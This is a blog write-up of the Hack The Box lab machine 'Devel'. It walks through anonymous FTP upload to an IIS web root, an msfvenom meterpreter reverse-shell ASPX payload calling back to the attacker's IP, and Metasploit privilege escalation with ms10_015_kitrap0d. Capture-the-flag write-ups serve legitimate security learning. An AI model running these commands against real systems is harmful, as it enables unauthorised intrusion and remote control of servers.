 ```yaml
---
layout: PostSimple
date: 2020-02-25
title:     "Hack The Box - Devel"
tags: ['windows','easy','iis','mfsvenom']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/1.png)

We are going to pwn Devel from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/3](https://www.hackthebox.eu/home/machines/profile/3)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       [DIR](DIR)          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP:

We logged in as ``anonymous`` password can be anything. No files are interested.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/2.png)

## HTTP:

This is just default IIS Page:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/3.png)

I started my gobuster and checked anything useful for us.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/25 21:05:15 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
===============================================================
2020/02/25 21:07:45 Finished
===============================================================
```

This looks like the same file as we saw in ``ftp`` this means the ftp is connected with web server.

I confirmed that with opening ``/welcome.png``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/4.png)

So now we need to upload a reverse shell in ``ftp`` and access it from web.
I look at the response of the web and the server is running as ``ASP.NET`` so we need to upload ``.aspx`` shell.
```
HTTP/1.1 304 Not Modified
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 28 Feb 2020 23:49:04 GMT
Connection: close
```

We need to get reverse shell, I used ``msfvenom`` to create the payload.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f aspx > reverse.aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/7.png)

Now upload it in ``ftp`` and using metasploit to get the shell.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/8.png)

And start the metasploit and select ``exploit/multi/handler`` which provides a listener.
Set the payload that we used in ``msfvenom`` which is ``windows/meterpreter/reverse_tcp``.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/9.png)


Now open the ``/reverse.aspx`` from the web [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/10.png)

I get the ``shell`` and checked ``systeminfo``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/11.png)

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.


I tried ``local_exploit_suggester`` this will give us some suggestions to exploit.For that we need to background the session.
```
meterpreter > 
Background session 3? [y/N]  
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/12.png)

We need to enter the session which it need to check.
```
msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.28:1234 -> 10.10.10.5:49162 (10.10.10.5)

```
So its session 3.

Now we can run that[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/13.png)[br/](br/)
There is a lot of exploits suggested so I picked up random one.

> exploit/windows/local/ms10_015_kitrap0d


```
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.28 
LHOST => 10.10.14.28
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1234
LPORT => 1234
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/14.png)


